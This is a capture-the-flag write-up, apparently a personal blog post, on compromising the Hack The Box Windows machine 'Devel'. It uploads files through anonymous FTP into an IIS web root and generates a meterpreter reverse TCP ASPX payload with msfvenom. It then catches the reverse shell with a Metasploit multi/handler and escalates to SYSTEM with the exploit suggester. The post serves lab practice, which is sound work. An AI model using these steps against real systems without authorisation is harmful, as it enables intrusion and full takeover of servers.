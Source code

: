 ```yaml
---
layout: post
title: Hack The Box - Devel
categories: ctf, htb
permalink: /htb-devel/
published: true
---
```

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/devel.png)

Today let's get our hands in one the Windows boxes from Hack the Box.


### Going over nmap

Going over nmap, we see something interesting. FTP is open, as well as HTTP. HTTP isn't a surprise but FTP definitely is. We also do see it running Microsoft IIS which is Microsoft Web Server. 

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/2-1.png)

Accessing to 10.10.10.5 we see the default welcome page. Viewing the image we arrive at 10.10.10.5/welcome.png. 

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/3-1.png)

Previously, the file welcome.png was on the output of nmap. That means iisstart.htm which also was on the output is probably the default page of the website. The FTP server likely is in the same root as the HTTP server.

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/3-2.png)


### Anonymous FTP + File Upload

If we upload a script there, we might be able to view it via the HTTP server. Let's FTP to 10.10.10.5. User as anonymous because that what nmap said: we have anonymous access. The password doesn't matter. Doing a dir shows the same files we know exist.

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/4-1.png)

If we upload a test file. And check again with dir, the file test exists on the webserver.

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/4-2.png)

10.10.10.5 gave us a 403 error. But changing test to test.html... We have successful execution.

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/4-3.png)

After intercepting the request with Burp and sending it to the repeater, we can see that this is a IIS server. And IIS does execute code, generaly ASP or ASPX. If we forward the request with Burp: we have IIS/7.5 which came out in 2008. 

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/4-4.png)


### MSFVenom

MSFVenom is going to build us an interpreter session. We can do msfvenom -l to list all available payloads. Piping it to grep will be useful to show only Windows payloads. We're going to do meterpreter reverse TCP because it usually works. A 64bit will not work on a 32 bit machine. But the 32bit version will still work on a 64bit machine.

```bash
msfvenom -l payloads | grep windows
```

This is the safest one to use first. Entering the command msfvenom -p (for payload) -f (format) -o (file name) pokacyb.aspx. Adding LHOST and LPORT options because it kept ignoring the tun0 address. This is going to create us a aspx file that loads the interpreter. 

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/5-1.png)

We then send the file over FTP in the same fashion as we did earlier.

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/5-2.png)


### Metasploit

What we have to do is load a listener that is going to listen for the web server trying to load the interpreter. We set the payload to the same thing we just used which was windows/meterpreter/reverse_tcp.

```bash
msfconsole
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
msf6 exploit(multi/handler) > run
```

After accessing 10.10.10.5/pokacyb.aspx and going back to metasploit, the meterpreter is running. First thing we do is sysinfo so we can see the architecture of the machine. The meterpreter itself is 32bit which is good. Devel is a Windows 7 box.	

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/6-1.png)


### Exploit Suggestor

We launched a shell and did a systeminfo command but didn't learn anything useful other that the system hadn't been updated since it was installed. So let's use the exploit suggestor to show us exploits that might work with our machine. What we can see is that all of them are from 2010 and beyond. Windows 7 release date being 2009, chances are these might work. Next let's try the first one.

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/7-1.png)


### Getting root

We had to try another session and specify the LHOST but now we're in. Doing a shell, we are nt authority\system which is Windows account. The box is ours now.

![_config.yml]({{ site.baseurl }}/images/2020/november/27/devel/8-1.png)

